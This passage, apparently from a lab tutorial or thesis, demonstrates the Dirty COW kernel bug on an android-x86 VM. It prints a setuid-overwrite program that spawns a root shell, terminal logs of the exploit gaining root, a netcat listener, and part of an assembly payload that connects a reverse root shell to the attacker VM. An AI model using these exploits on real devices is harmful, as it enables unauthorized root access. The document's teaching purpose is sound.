10.0.2.10:5555	device
\end{lstlisting}

There are several reasons for why 'adb connect ...' might hang. It might be possible that the android VM has not fully booted. The android VM takes around 30 seconds to boot and start the adb server. Other possible reasons are that the android VM froze. This can happen if the android VM is in idle for a long time, but rebooting the android VM always fixed that issue for me. A third possibility is that the Ubuntu VM cannot send packets to the android VM, i.e. there is no connection between the two VMs. You can confirm this by executing 'ping 10.0.2.10' (replace the IP with the android IP) in a terminal on the Ubuntu VM. If ping fails to receive packets as well, check the network settings in VirtualBox Manager. Maybe a configuration was not saved.

Note that you need to rerun 'adb connect ...' if either one of the two VMs reboots. You should also take a snapshot of the android VM in VirtualBox Manager. If the demo2 exploit succeeds and you want to try out the exploit a second time, you can revert back to the snapshot.

\section{Test Run}

The /home/user/demo1 folder on the Ubuntu VM contains the following files:
\begin{itemize}
  \item \textbf{README.txt:} Contains the expected output when the exploit is run.
  \item \textbf{Makefile:} Contains a set of commands for testing the Dirty COW bug and for running the exploit to override a binary. In the demo1 folder, a set of commands is run with the 'make test' and 'make root' command.
  \item \textbf{dcow.c:} Source Code for the exploit.
  \item \textbf{test.sh:} Shell Code for testing the Dirty COW bug.
  \item \textbf{Android.mk:} Specifies the compiler, compiler flags, and source code files for compiling and linking the android binaries.
  \item \textbf{run-as.c:} The set-user-ID binary\index{set-user-ID binary} is overwritten with the binary compiled from run-as.c.
\end{itemize}

The code for demo1 is based on \cite{33}. \cite{33} and the 'exploit.c' minimalistic exploit from \cite{2} differ mainly in that \cite{33} adds error checking and a function called checkThread. checkThread is run in a separate thread and periodically checks if the exploit was successful, i.e. if the target file was overwritten. If this is the case, the other two threads, i.e. the writing thread and the madvise thread, are stopped and the exploit process stops. This is a signal for the user that the exploit has finished. The exploits prints whether the exploit process completed successfully or whether an error occurred. Additionally, \cite{33} reads the 'to\_be\_written' string from a file instead of a variable in the exploit code. The original code \cite{33} had to be modified with small changes to make the exploit compatible with the android-x86 VM and to make the source code more readable.

Run 'cd /home/user/demo1 \&\& make test' in the Ubuntu VM to start the test. This will compile and link the source code of the exploit 'dcow.c'. Compiling and linking native code for android is done using the Android NDK, which takes care of cross-compiling for android on Ubuntu. For example, android uses a slightly different standard library, and the Android NDK includes compilers that take care of that. Interested readers can examine the Android.mk and Makefile files for more information on how the exploit is compiled and linked.

The previous 'make test' execution results in the following: Both the compiled exploit binary and the 'test.sh' shell script are copied to the '/data/local/tmp/' folder on the android VM. Next, 'test.sh' is executed in the android VM. The contents of 'test.sh' are shown in the following listing \ref{testsh}:

\begin{lstlisting}[caption=test.sh Shell Script \cite{33}, captionpos=b, language=bash, label=testsh]

if [ -f /data/local/tmp/test ]; then
    chmod 777 /data/local/tmp/test
    rm /data/local/tmp/test
fi

if [ -f /data/local/tmp/test2 ]; then
    chmod 777 /data/local/tmp/test2
    rm /data/local/tmp/test2
fi

echo vulnerable!!!!!!! > /data/local/tmp/test
echo yournotvulnerable > /data/local/tmp/test2

chmod 444 /data/local/tmp/test2
ls -l /data/local/tmp/test*
\end{lstlisting}

If the test and test2 files exist from a prior test run, both files are removed. Two new files called test and test2 are created. The string 'vulnerable!!!!!!!' is written to the file test and the string 'yournotvulnerable' is written to the file test2. The access permissions of file2 are set to read-only for everyone. 'ls -l ..' prints, amongst other things, the access permissions of the test files.

After test.sh has finished, the command '/data/local/tmp/dcow /data/local/tmp/test /data/local/tmp/test2' is run in the android VM. This command uses the exploit to overwrite test2 with the content from file test. If the exploit is successful, 'yournotvulnerable' is overwritten with 'vulnerable!!!!!!!' in the test2 file. Because the test2 file is read-only by everyone, writing to test2 should not be allowed. Lastly, the contents of the test2 file are printed.

Listing \ref{make test Output} shows the output in the terminal from 'make test':
\begin{lstlisting}[caption=make test Output, captionpos=b, language=bash, label=make test Output]
user@user:/$ cd /home/user/demo1 && make test
/home/user/adb/android-ndk-r21d/ndk-build NDK_PROJECT_PATH=. APP_BUILD_SCRIPT=./Android.mk APP_ABI=x86_64 APP_PLATFORM=android-23
make[1]: Entering directory '/home/user/demo1'
[x86_64] Install        : dirtycow => libs/x86_64/dirtycow
[x86_64] Install        : run-as => libs/x86_64/run-as
make[1]: Leaving directory '/home/user/demo1'
adb push libs/x86_64/dirtycow /data/local/tmp/dcow
libs/x86_64/dirtycow: 1 file pushed. 8.8 MB/s (10408 bytes in 0.001s)
adb shell 'chmod 777 /data/local/tmp/dcow'
adb push test.sh /data/local/tmp/test.sh
test.sh: 1 file pushed. 0.5 MB/s (367 bytes in 0.001s)
adb shell 'chmod 777 /data/local/tmp/dcow'
adb shell 'chmod 777 /data/local/tmp/test.sh'
adb shell '/data/local/tmp/test.sh'
-rw-rw-rw- shell    shell          18 2020-12-29 23:01 test
-rwxrwxrwx shell    shell         367 2020-12-29 18:24 test.sh
-r--r--r-- shell    shell          18 2020-12-29 23:01 test2
adb shell '/data/local/tmp/dcow /data/local/tmp/test /data/local/tmp/test2'
dcow /data/local/tmp/test /data/local/tmp/test2
[*] size 18
[*] mmap 0x7ff91dc4f000
[*] currently 0x7ff91dc4f000=76746f6e72756f79
[*] using /proc/self/mem method
[*] madvise = 0x7ff91dc4f000 18
[*] madvise = 0 5082
[*] /proc/self/mem 1431270 79515
[*] exploited 0 0x7ff91dc4f000=626172656e6c7576
adb shell 'cat /data/local/tmp/test2'
vulnerable!!!!!!!
adb shell 'cat /data/local/tmp/test2' | xxd
00000000: 7675 6c6e 6572 6162 6c65 2121 2121 2121  vulnerable!!!!!!
00000010: 210d 0a                                  !..
\end{lstlisting}

Especially the last lines in listing \ref{make test Output} are important. These lines should contain the string \textit{vulnerable!!!!!!!}. This test demonstrates that read-only pages can be overwritten using Dirty COW.

\section{Root Shell}

The\index{Root Shell} goal of this demonstration is to overwrite a set-user-ID binary that is owned by root with a custom binary that we compile. set-user-ID is a permission that is given to a file \cite{36}. With this permission, the file is executed with the permissions of the owner of that file \cite{36}. An example set-user-ID binary \index{set-user-ID binary}is the 'ping' binary on Ubuntu. ping requires privileges to create raw network sockets \cite{37}.

There are strict rules with the goal that set-user-ID binaries cannot be used by an unprivileged user to gain unrestricted privileges. For example, even if unprivileged users could write to a set-user-ID file, writing to a set-user-ID root file as an unprivileged user drops the set-user-ID permission from that file. Dirty COW circumvents these checks and allows an unprivileged user to overwrite the set-user-ID root binary while keeping the set-user-ID file permission intact.

In a terminal on the Ubuntu VM, run 'adb shell "find / -perm -4000 -user root 2\&>/dev/null"'. This command finds and prints the location of all files in the android VM with set-user-ID permissions and that are owned by root. Your output should be the same as shown in listing \ref{find setuid files Output}:

\begin{lstlisting}[caption=find set-user-ID files Output, captionpos=b, language=bash, label=find setuid files Output]
user@user:~/demo1$ adb shell "find / -perm -4000 -user root 2&>/dev/null"
/system/bin/pppd
/system/xbin/librank
/system/xbin/procmem
/system/xbin/procrank
/system/xbin/su
\end{lstlisting}

Any of these files can be the target of the exploit and be overwritten. The file '/system/xbin/procrank' is used in the following demonstration. One should not choose the '/system/xbin/su' file. This version of the su binary starts a root shell\index{Root Shell} without asking for a password. The su binary was added by the android-x86 developers. It usually does not exist on other android devices. The exploit overwrites the target with a binary that is similar to this version of su. For this reason, one does not know if the exploit worked if '/system/xbin/su' is chosen as the target. If you have chosen a target other than '/system/xbin/procrank', open Makefile in the Ubuntu VM and replace '/system/xbin/procrank' in line 26 and 27 with your target binary.

This target binary is overwritten with the binary compiled from the run-as.c file. Relevant parts of run-as.c are shown in listing \ref{runas}:

\begin{lstlisting}[caption=run-as.c Source Code \cite{33}, captionpos=b, language=C, label=runas]
... include headers and LOGV macro

int main(int argc, const char **argv) {
	LOGV("uid %s %d", argv[0], getuid());

	if (setresgid(0, 0, 0) || setresuid(0, 0, 0)) {
		LOGV("setresgid/setresuid failed");
	}

	LOGV("uid %d", getuid());
	dlerror();  // print if dynamic linking error occured

	int fd = open("/proc/sys/vm/dirty_writeback_centisecs", O_WRONLY);
	if (fd == -1) LOGV("Failed to open /proc/sys/vm/dirty_writeback_centisecs\n");
	if (write(fd, "0", 1) != 1) LOGV("Failed to write 0 to /proc/sys/vm/dirty_writeback_centisecs\n");

	system("/system/bin/sh -i");
}
\end{lstlisting}

Every process has three attributes for user IDs (UIDs), namely the real, effective, and saved set user ID \cite{55}\index{user ID} \index{real user ID} \index{effective user ID} \index{saved set user ID}. A set-user-ID binary\index{set-user-ID binary} sets the effective UID of the process to the UID of the owner of the file. The effective UID is used for privilege checks \cite{55}. If a new program is executed, for example via execve or via \textit{system}, the effective UID is set to the value of the saved set user ID \cite{38}. For most set-user-ID binaries that means, that a process loses its privileges when executing a new program. However, if the effective UID is zero, the process is allowed to set all three UIDs to zero with the \textit{setresuid} system call \cite{39}. A process with effective UID zero runs as root. More specifically, if the effective user ID of a process is set to zero, for example due to a set-user-ID binary\index{set-user-ID binary} owned by root, the process gains all capabilities and thus has all privileges \cite{44}.

The value in the \textit{dirty\_writeback\_centisecs} file specifies the interval in milliseconds for when the kernel flusher threads wake up to write dirty pages to disk \cite{40} \cite{41}. A value of zero disables these kernel flusher threads \cite{40}. When the exploit is used with the writing to /proc/self/mem\index{/proc/self/mem} method, the kernel flusher threads must be disabled, otherwise the system crashes and reboots. demo2, shown in chapter \ref{Demo 2}, uses ptrace\index{ptrace} instead of writing to /proc/self/mem. The ptrace method does not require that the kernel flusher threads are disabled.

The \textit{system} function call executes an interactive root shell\index{Root Shell}. Due to the zero saved set user ID, this shell has root privileges.


Run 'adb shell /system/xbin/procrank' in the Ubuntu VM. This should not open a remote root shell yet. Run 'cd /home/user/demo1 \&\& make root'. Now you should have launched an interactive remote shell with root privileges.

Listing \ref{make root Output} shows the output in the terminal from 'make root':
\begin{lstlisting}[caption=make root Output, captionpos=b, language=bash, label=make root Output]
user@user:~/demo1$ make root
/home/user/adb/android-ndk-r21d/ndk-build NDK_PROJECT_PATH=. APP_BUILD_SCRIPT=./Android.mk APP_ABI=x86_64 APP_PLATFORM=android-23
make[1]: Entering directory '/home/user/demo1'
[x86_64] Install        : dirtycow => libs/x86_64/dirtycow
[x86_64] Install        : run-as => libs/x86_64/run-as
make[1]: Leaving directory '/home/user/demo1'
adb push libs/x86_64/dirtycow /data/local/tmp/dcow
libs/x86_64/dirtycow: 1 file pushed. 9.7 MB/s (10408 bytes in 0.001s)
adb shell 'chmod 777 /data/local/tmp/dcow'
adb shell 'chmod 777 /data/local/tmp/dcow'
adb push libs/x86_64/run-as /data/local/tmp/run-as
libs/x86_64/run-as: 1 file pushed. 11.9 MB/s (10408 bytes in 0.001s)
adb shell '/data/local/tmp/dcow /data/local/tmp/run-as /system/xbin/procrank'
dcow /data/local/tmp/run-as /system/xbin/procrank
warning: new file size (10408) and destination file size (14384) differ

[*] size 14384
[*] mmap 0x7f2dc71f7000
[*] currently 0x7f2dc71f7000=10102464c457f
[*] using /proc/self/mem method
[*] madvise = 0x7f2dc71f7000 14384
[*] madvise = 0 290025
[*] /proc/self/mem 542161728 37692
[*] exploited 0 0x7f2dc71f7000=10102464c457f
adb shell /system/xbin/procrank
uid /system/xbin/procrank 2000
uid 0
root@x86_64:/ #
\end{lstlisting}

You can confirm that the shell is running with effective UID zero by running the 'id' binary or via 'whoami', as shown in listing \ref{id Output in Root Shell}: \index{Root Shell}

\begin{lstlisting}[caption=id Output in Root Shell, captionpos=b, label=id Output in Root Shell]
... old 'make root' output
[*] exploited 0 0x7f2dc71f7000=10102464c457f
adb shell /system/xbin/procrank
uid /system/xbin/procrank 2000
uid 0
root@x86_64:/ # id
id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)
root@x86_64:/ #
root@x86_64:/ # whoami
whoami
root
root@x86_64:/ # 
\end{lstlisting}

\chapter{Demo 2 - ptrace method and vDSO} \label{Demo 2}

The first demo from the previous chapter \ref{Demo 1} can usually not be used on newer (from around 2015+) android devices, because newer android devices usually use binaries with capabilities \cite{44} instead of set-user-ID binaries. set-user-ID binaries do not allow fine grained control over which privileges are given to the process \cite{44}. They are an all-or-nothing approach. A process has either all root privileges or no privileges. As can be seen from the first demo, this can have catastrophic effects like allowing an attacker to take control over the whole system. The previous chapter included 'ping' as an example set-user-ID binary that requires privileges to create raw network sockets \cite{37}. However, there is no reason why the ping binary should be allowed to load and unload kernel modules. However, as a set-user-ID binary,\index{set-user-ID binary} ping can do this and via the exploit from demo 1, an unprivileged user can do this as well.

In addition to the use of binaries with capabilities instead of set-user-ID binaries, newer android devices include Android Security Features like SELinux \cite{45}. These Android Security Features restrict what processes are allowed to do even more than Linux capabilities. The android VM does not have SELinux enabled.

While there are no set-user-ID binaries anymore, there are still binaries with capabilities. However, the binaries with capabilities that are allowed to be executed by unprivileged users are limited in what they are allowed to do. For example, executing a root shell\index{Root Shell} is usually not allowed. Therefore, access to a root shell is not possible anymore via the exploit from the first demo.

\section{Overview}

This demo demonstrates overwriting vDSO\index{vDSO} (virtual dynamic shared object) with machine code. The machine code will start a reverse shell to connect from the android VM to the Ubuntu VM. This machine code will be executed by a process with root privileges. Therefore, the attacker gains access to a root shell in the andorid VM.

The exploit shown in this demo is based on \cite{42}. \cite{42} has the same idea, i.e. use Dirty COW with ptrace\index{ptrace} to overwrite vDSO for a root reverse shell, but \cite{42} only works for desktop Linux distributions. There are differences between a typical desktop Linux distribution like Ubuntu and an android Linux distribution like android-x86. Due to these differences, the exploit from \cite{42} was modified to make it compatible with the android-x86 VM used in this demonstration. Some ideas for these modifications came from \cite{43}. \cite{43} itself is based on \cite{42}.

These differences include, among others, the following:
\begin{itemize}
  \item Standard Libraries, including vDSO
  \item Paths to programs like 'sh' and folders like '/tmp'
  \item Executing 'sh' via execve requires at least one argument in argv
\end{itemize}

vDSO "is a small shared library that the kernel automatically maps into the address space of all user-space applications" \cite{46}. Making system calls is slower than calling a normal function \cite{46}. There are system calls like clock\_gettime that are frequently invoked by user-space programs \cite{46}. Due to the higher overhead of making system calls, frequent calls to system calls can dominate the overall performance \cite{46}. vDSO\index{vDSO} is used to increase the performance \cite{46}. The kernel maps the implementation of often used system calls like clock\_gettime into the address space of all user-space processes \cite{46}. Thus, some system calls become normal function calls, without the overhead of switching back and forth between user- and kernel-space \cite{46}.

As shown in listing \ref{procselfmaps}, the /proc/.../maps file can be read to print the type and access permissions of currently mapped memory regions in a given process \cite{6}.

\begin{lstlisting}[caption=/proc/self/maps Output from the android VM, captionpos=b, label=procselfmaps]
user@user:~/demo2$ adb shell cat /proc/self/maps
...
7ffcf7792000-7ffcf77b3000 rw-p 00000000 00:00 0            [stack]
7ffcf77e5000-7ffcf77e7000 r--p 00000000 00:00 0            [vvar]
7ffcf77e7000-7ffcf77e9000 r-xp 00000000 00:00 0            [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0    [vsyscall]
\end{lstlisting}

Listing \ref{procselfmaps} includes the vDSO mapping \textit{[vdso]}. The \textit{p} in the second column \textit{r-xp} specifies that the vDSO mapping is a private COW mapping\index{private COW mapping} \cite{6}. The first column specifies the start and end virtual address of the mapping.

The functions in the vDSO library can be invoked by all user-space processes, including processes with all privileges/capabilities. If the vDSO mapping is overwritten with Dirty COW, these processes execute machine code that we control with all privileges. These privileges allow spawning a root shell\index{Root Shell} and connecting to a remote VM, for example the Ubuntu VM.

This demo overwrites two parts of the vDSO\index{vDSO} mapping. Part one is located towards the end of the vDSO mapping, because there is 'empty space', i.e. there are no functions and no data is located there. The vDSO functions are invoked by system critical processes. Uncontrolled overwriting of vDSO functions and data that is used by these functions can crash these system critical processes and can thus crash the system. The system must continue to run normally despite the changes made to vDSO.

Part one is the exploit payload. It contains the machine code that forks, spawns a root shell, and connects to the remote Ubuntu VM. More on this later. Part two is located at the start of the clock\_gettime function. This location is overwritten with a call instruction that calls the payload in part one like a normal function call.

Whenever a process calls the clock\_gettime function, the call instruction of part two is executed. This results in jumping to and executing the payload of part one. The payload forks and the parent process of this fork returns to the clock\_gettime function. There, the clock\_gettime function is executed normally, as if the vDSO\index{vDSO} was not overwritten. The fork and return is done so that possible system critical processes are not interrupted and can continue normally. The child process, resulting from the fork, executes a root shell\index{Root Shell} and connects to the remote. If the process is not running as root or if a reverse root shell was established already, the payload will not fork and will instead immediately return to the clock\_gettime function.

In the Ubuntu VM, the folder '/home/user/demo2' contains the files required for this demonstration. The demo2 folder contains the following files:

\begin{itemize}
  \item \textbf{Makefile:} Contains a set of commands for running the exploit.
  \item \textbf{payload.s} Contains the assembly code for the payload. This assembly code is compiled, and the resulting machine code is the payload, i.e. part one.
  \item \textbf{0xdeadbeef.c:} Source Code for the exploit.
  \item \textbf{Android.mk:} Specifies the compiler, compiler flags, and source code files for compiling and linking the exploit binary.
\end{itemize}

\section{Running the Exploit}

The exploit requires a small modification. You need to set the IP of the Ubuntu VM in the /home/user/demo2/Makefile file. In the Ubuntu VM, open a terminal and run 'ip addr'. The IP of the Ubuntu VM is under 'enp0s3' in the 'inet' row. The IP of my Ubuntu VM is '10.0.2.17'. Note that your IP will likely differ. Open the Makefile in a text editor and replace '10.0.2.17' with the IP of your Ubuntu VM

Next, run 'nc -n -v -l 1234' in a terminal on the Ubuntu VM. nc is short for netcat. netcat will create a socket that listens for incoming connections on port 1234. The '-v' flag enables verbose output, so that incoming connections are printed to the terminal. Keep the terminal with netcat running open and open a second terminal. In the second terminal, change the current working directory to '/home/user/demo2/' and run 'make'. Go back to the first terminal with netcat and run a command like 'id' or 'whoami'. Note that you might not get a response immediately, because the clock\_gettime function might not be immediately invoked by a process running with root privileges. In my tests, this took around 15 seconds. An example output is shown in listing \ref{Reverse root shell with demo 2}:\index{Root Shell}

\begin{lstlisting}[caption=Reverse root shell with demo 2, captionpos=b, label=Reverse root shell with demo 2]
user@user:~/demo2$ nc -n -v -l 1234
Listening on 0.0.0.0 1234
id
Connection received on 10.0.2.10 42720
uid=0(root) gid=0(root) groups=0(root)
whoami
root
\end{lstlisting}

The vDSO 'file' resets whenever the android VM is rebooted. Note that a file called '/data/b' is created in the android VM when the payload is executed by a process with root privileges. The '/data/b' file is not deleted on reboot. If you have successfully overwritten the vDSO\index{vDSO} with 'make' and you want to try out this demo a second time, you need to either reboot and delete the '/data/b' file (in this order) or revert back to a previous snapshot of the android VM. The following sections describe several inner workings of the exploit.

\section{Finding the Starting Address of the clock\_gettime Function}

If 'adb shell cat /proc/self/maps' is run multiple times, you will notice that the start and end virtual address of the vDSO mapping is different in every run. This is due to Address Space Layout Randomization (ASLR)\index{Address Space Layout Randomization}. ASLR is a security technique that randomizes the locations of different memory areas in the virtual address space\index{Virtual Address Space} of a process. Example memory locations include the stack, heap, and vDSO. The location of these memory locations is chosen when the process starts. They do not change during the lifetime of the process. Binaries in ELF format store the starting address of the vDSO\index{vDSO} mapping in a so-called ELF auxiliary vector\index{ELF auxiliary vector} \cite{47}. A process can read from its auxiliary vector and can thus know the location of the vDSO mapping.

The next step is to find the starting address of the clock\_gettime function in the vDSO mapping. Finding a function in a memory mapping\index{Memory Mapping} is a common operation in reverse engineering tools \cite{48}. One strategy used in these tools is to iterate over all bytes in the memory mapping \cite{48}. In every iteration, the program checks if the current byte can mark the start of the clock\_gettime function. This is implemented by comparing a set number X of bytes, starting from the current byte, with the first X bytes of the clock\_gettime function. The first X bytes of the clock\_gettime function must be obtained in advance. These first X bytes are referred to as the function pattern in this section. The size of the vDSO\index{vDSO} mapping is 8192 bytes, so iterating over all bytes with this technique is fast. Interested readers can see \cite{48} for more information on this technique.

Different vDSO versions have differnt implementations and thus different patterns for the clock\_gettime function. The exploit \cite{44}, which this demo is based on, included several clock\_gettime function patterns, but none of these matched the clock\_gettime function pattern used in the android VM. To obtain the clock\_gettime function pattern, the vDSO\index{vDSO} memory is written to a file and copied to the Ubuntu VM for further analysis.

\begin{lstlisting}[caption=Extract vDSO memory, captionpos=b, label=Extract vDSO memory]
user@user:~$ adb shell
shell@x86_64:/ $ sleep 10000 &
[1] 3171
shell@x86_64:/ $ cat /proc/3171/maps | grep vdso 
7ffd3edd8000-7ffd3edda000 r-xp 00000000 00:00 0                          [vdso]
shell@x86_64:/ $ echo "7ffd3edd8000 is 140725658157056"
7ffd3edd8000 is 140725658157056
dd if=/proc/3171/mem of=/data/local/tmp/vdso.so bs=1 count=8192 skip=140725658157056
shell@x86_64:/ $ file /data/local/tmp/vdso.so
/data/local/tmp/vdso.so: ELF shared object, 64-bit LSB x86-64 loads 1 lib)
\end{lstlisting}

The vDSO used in the android VM is already extracted and copied to the Ubuntu VM as the /home/user/demo2files/vdso.so file. You can skip the commands in this paragraph if you'd like or you can follow them as a learning experience. Open a terminal on the Ubuntu VM. Run the command 'adb shell' to open a remote shell for the android VM. In this shell, run 'sleep 10000 \&' to start a process that runs for a while in the background. The process ID (PID) of this sleep process is output to the terminal. In listing \ref{Extract vDSO memory}, this PID is 3171. Your PID will likely differ. In the following commands, replace 'PID' with this PID. Next, run 'cat /proc/PID/maps | grep vdso' to obtain the start address of the vDSO mapping in the sleep process. In listing \ref{Extract vDSO memory}, this start address is \textit{7ffd3edd8000}. Convert the start address to a decimal number. For example, open a new terminal in the Ubuntu VM and run "python -c 'print(0x7ffd3edd8000)'". Replace the hexadecimal number with your starting address. In the remote shell, run 'dd if=/proc/PID/mem of=/data/local/tmp/vdso.so bs=1 count=8192 skip=DECIMAL\_STARTING\_ADDRESS'. Make sure to replace PID and DECIMAL\_STARTING\_ADDRESS. This command will write the first 8192 bytes, starting from offset DECIMAL\_STARTING\_ADDRESS in the file /proc/PID/mem to the file /data/local/tmp/vdso.so.\index{vDSO} In the android VM, the vDSO mapping has a size of 8192 bytes (listing \ref{procselfmaps}). Run 'file /data/local/tmp/vdso.so' to check if the dd command worked. You can compare your output with the output from listing \ref{Extract vDSO memory}. In the Ubuntu VM, open a new terminal and run 'adb pull /data/local/tmp/vdso.so vdso.so' to copy the file from the android VM to the Ubuntu VM.

Open Ghidra by executing '/home/user/ghidra\_9.2.1\_PUBLIC/ghidraRun' in the terminal on the Ubuntu VM. Your Ghidra window should look like the one in figure \ref{fig:Ghidra File Selection}. Open the vdso.so file in Ghidra by double clicking 'vdso.so' in the Ghidra window. This vdso.so file is the already extracted, copied, and imported vdso.so file mentioned at the start of the previous paragraph.

\begin{figure}[!h]
	\centering
	
\includegraphics[width=0.8\textwidth]{ghidrafileselection.PNG}
	\caption{Ghidra File Selection}
	\label{fig:Ghidra File Selection}
\end{figure}

You could also import the vdso.so file that you exported, but both files should be identical. In case you are interested in how importing a file in Ghidra works: In the Ghidra window, click on the 'File' button on the top left, followed by 'Import File...'. Find, select, and import the vdso.so file. You can use the '/home/user/demo2files/vdso.so' or the vdso.so file that you created. Both files contain the same data. Press 'OK' twice, the vdso.so file is automatically identified as an ELF file.

After opening the vdso.so\index{vDSO} file in Ghidra, when asked to analyse the vdso.so file, press 'Yes', followed by 'Analyze'. On the left side of the Ghidra window under 'Symbol Tree', open the 'Functions' folder and click on 'clock\_gettime'. The Symbol Tree is highlighted in red in figure \ref{fig:ghidrasymboltree}. The starting bytes of the clock\_gettime function are highlighted in red in figure \ref{fig:ghidraclockgettime}.

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{ghidrasymboltree.PNG}
	\caption{Ghidra Symbol Tree}
	\label{fig:ghidrasymboltree}
\end{figure}

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{ghidraclockgettime.PNG}
	\caption{Ghidra clock\_gettime Function}
	\label{fig:ghidraclockgettime}
\end{figure}

The first 6 bytes of the clock\_gettime function were added to the prologues struct in the 0xdeadbeef.c file, as shown in the following listing \ref{funcsigns}. The second argument for \textit{prologue} is the length of the specified function signature.

\begin{lstlisting}[caption=clock\_gettime Function Signatures 0xdeadbeef.c \cite{42}, captionpos=b, language=C, label=funcsigns]
static struct prologue prologues[] = {
  // The following is the clock\_gettime function signature in the android VM.
  /* push rbp; mov rbp, rsp; push r13 */
  { "\x55\x48\x89\xe5\x41\x55", 6 },
  // The following are clock\_gettime signatures from other vdso versions.
  // These are from the original creater of this exploit.
  /* push rbp; mov rbp, rsp; lfence */
  { "\x55\x48\x89\xe5\x0f\xae\xe8", 7 },
  /* push rbp; mov rbp, rsp; push r14 */
  { "\x55\x48\x89\xe5\x41\x57", 6 },
...
};
\end{lstlisting}

\section{Payload}

The payload is written in assembly. When compiling a program with a compiler, the compiler will split the machine code instructions and the data. For example, strings like '/system/bin/sh' are placed in the read-only data segment and executable machine code is placed in the text segment. The payload is written to one segment, the vDSO\index{vDSO} segment, and the exploit cannot write to other segments. Therefore, executable machine code and data have to be mixed in one place. Writing in assembly allows this flexibility of mixing code and data.

\begin{lstlisting}[caption=Define Symbols - payload.s \cite{42}, captionpos=b, label=payload]
SYS_OPEN	equ 0x2
SYS_SOCKET	equ 0x29
SYS_CONNECT	equ 0x2a
SYS_DUP2	equ 0x21
SYS_FORK	equ 0x39
SYS_EXECVE	equ 0x3b
SYS_EXIT	equ 0x3c
SYS_READLINK	equ 0x59
SYS_GETUID	equ 0x66

AF_INET		equ 0x2
SOCK_STREAM	equ 0x1

IP		equ 0xdeadc0de	;; patched by 0xdeadbeef.c
PORT		equ 0x1337	;; patched by 0xdeadbeef.c
\end{lstlisting}

The start of the payload defines a set of symbols. One can think of these symbols as variables. The SYS\_* labels specify the number of a system call. These are identifiers for their respective system call.

\begin{lstlisting}[caption=Save Registers - payload.s \cite{42}, captionpos=b, label=payload2]
_start:
    ;; save registers
    push	rdi
    push	rsi
    push	rdx
    push	rcx
\end{lstlisting}

